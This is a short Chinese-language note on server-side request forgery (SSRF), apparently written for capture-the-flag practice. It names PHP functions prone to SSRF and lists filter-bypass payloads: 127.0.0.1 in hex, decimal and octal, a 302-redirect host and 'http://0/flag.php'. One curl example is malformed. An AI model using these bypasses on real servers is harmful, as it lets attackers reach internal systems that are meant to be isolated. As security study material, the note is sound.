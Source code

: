 # SSRF

SSRF (Server-Side Request Forgery，服务器端请求伪造) 是一种由攻击者构造请求，由服务端发起请求的安全漏洞，一般情况下，SSRF攻击的目标是外网无法访问的内网系统，也正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔绝的内部系统。也就是说可以利用一个网络请求的服务，当作跳板进行攻击。


<br>


### PHP
在PHP中的curl()，file_get_contents()，fsockopen()等函数是几个主要产生ssrf漏洞的函数

* curl()

curl(127.0.0.1:flag.php)






### 绕过

各种进制的内网地址

````
#默认

http://127.0.0.1
#16进制

http://0x7F000001
#10进制

((127*256+0)*256+0)*256+1//计算过程
http://2130706433
#8进制

http://0177.0000.0000.0001
````

<br>

302跳转绕过
````
http://spoofed.burpcollaborator.net/flag.php
````

<br>

短绕过
````
linux中 0 指向本机地址

payload： url=http://0/flag.php
````
